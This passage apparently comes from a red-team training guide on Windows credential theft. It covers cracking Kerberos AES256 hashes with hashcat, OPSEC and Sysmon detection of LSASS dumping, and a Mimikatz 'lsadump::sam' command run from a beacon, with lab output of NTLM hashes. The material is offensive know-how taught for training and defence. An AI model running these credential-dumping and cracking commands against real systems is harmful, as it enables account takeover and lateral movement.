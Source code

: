 \
Note that Mimikatz incorrectly labels each hash as _des\_cbc\_md4_.  The hash at the top has a length of 64 and is _aes256-cts-hmac-sha1-96_.  You may also see _aes128-cts-hmac-sha1-96_ and _rc4\_hmac_ which are 32 in length.

You can technically crack AES256 but they are much slower compared to NTLM because they are salted.  My 4070 GPU benchmarks NTLM at 140 GH/s and AES256 at only 1375 kH/s.  The hash format required by Hashcat is `$krb5db$18$<username>$<DOMAIN-FQDN>$<hash>` and can be cracked using hash mode 28900.

```batch
PS C:\Tools\hashcat> .\hashcat.exe -a 0 -m 28900 .\sha256.hash .\example.dict -r .\rules\dive.rule
$krb5db$18$rsteel$CONTOSO.COM$05579261e29fb01f23b007a89596353e605ae307afcd1ad3234fa12f94ea6960:Passw0rd!
```

However, a much more practical use for these hashes is to request Kerberos tickets with.

#### OPSEC <a href="#el_1744392042894_349" id="el_1744392042894_349"></a>

Dumping credentials from LSASS is generally a bad idea from an OPSEC perspective, and best avoided where possible.  Security drivers can use the [ObRegisterCallbacks](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-obregistercallbacks) kernel function to get notified when one process opens a handle to another process.  Here's an example log generated by Sysmon when credentials are dumped from LSASS.

```batch
Process accessed:

SourceProcessId: 5744
SourceThreadId: 4724
SourceImage: C:\Windows\system32\rundll32.exe
TargetProcessId: 772
TargetImage: C:\Windows\system32\lsass.exe
GrantedAccess: 0x1010
CallTrace: C:\Windows\SYSTEM32\ntdll.dll+9d9b4|C:\Windows\System32\KERNELBASE.dll+338ae|UNKNOWN(00000202CDF78124)
SourceUser: NT AUTHORITY\SYSTEM
TargetUser: NT AUTHORITY\SYSTEM
```

\
The **GrantedAccess** mask of `0x1010` is consistent with `PROCESS_QUERY_LIMITED_INFORMATION | PROCESS_VM_READ`, which are the minimum privileges required for reading memory.

### Security Account Manager <a href="#el_1736771104591_343" id="el_1736771104591_343"></a>

The Security Account Manager (SAM) stores the credentials for local accounts across the `HKLM\sam` and `HKLM\system` hives.  An adversary may extract the usernames and password hashes \[[T1003.002](https://attack.mitre.org/techniques/T1003/002/)] from this database.

```batch
beacon> mimikatz !lsadump::sam

Domain : LON-WKSTN-1
SysKey : a975bfd9830a0c6a82f3449ccc88432d
Local SID : S-1-5-21-3729176663-3746934411-1052919527

SAMKey : a895742da6fa699fbbf1d410bfbe49e0

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: fc525c9683e8fe067095ba2ddc971889
    lm  - 0: 4b2c6e5db76fe295603b423c72f9b271
    ntlm- 0: fc525c9683e8fe067095ba2ddc971889
    ntlm- 1: fc525c9683e8fe067095ba2ddc971889
```
